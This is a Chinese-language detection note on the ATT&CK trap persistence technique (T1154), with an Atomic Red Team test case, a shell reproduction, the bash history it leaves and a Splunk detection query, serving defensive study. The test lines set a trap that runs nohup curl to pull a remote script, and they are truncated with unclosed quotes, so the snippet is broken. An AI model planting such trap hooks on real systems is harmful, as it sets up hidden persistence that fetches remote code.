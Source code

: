 # T1154-linux-trap

## 来自ATT&CK的描述

该`trap`命令允许程序和shell指定在接收中断信号时将执行的命令。常见的情况是脚本允许正常终止和处理常见的键盘中断，如`ctrl+c`和`ctrl+d`。攻击者可以使用它来注册当shell遇到特定中断以执行或作为持久性机制时要执行的代码。陷阱命令具有以下格式`trap 'command list' signals`，其中当接收到“信号”时将执行“命令列表”。

## 测试案例

trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh # 脚本即使在退出后（ctrl + c）也会继续执行程序/脚本。

trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh 

关于trap、nohup命令的更多解释，你可以查看参考链接部分。

## 检测日志

bash历史命令

## 测试复现

icbc@icbc:/$ trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh 

> ^C

## 测试留痕

icbc@icbc:/$ history

 693  trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh 

## 检测规则/思路

index=linux sourcetype=bash_history "trap *" | table host,user_name,bash_command

## 参考推荐

MITRE-ATT&CK-T1154:https://attack.mitre.org/techniques/T1154/

linux下trap命令详解：https://blog.csdn.net/carolzhang8406/article/details/46504415/

linux下nohup命令浅析：https://www.bbsmax.com/A/kjdw9606JN/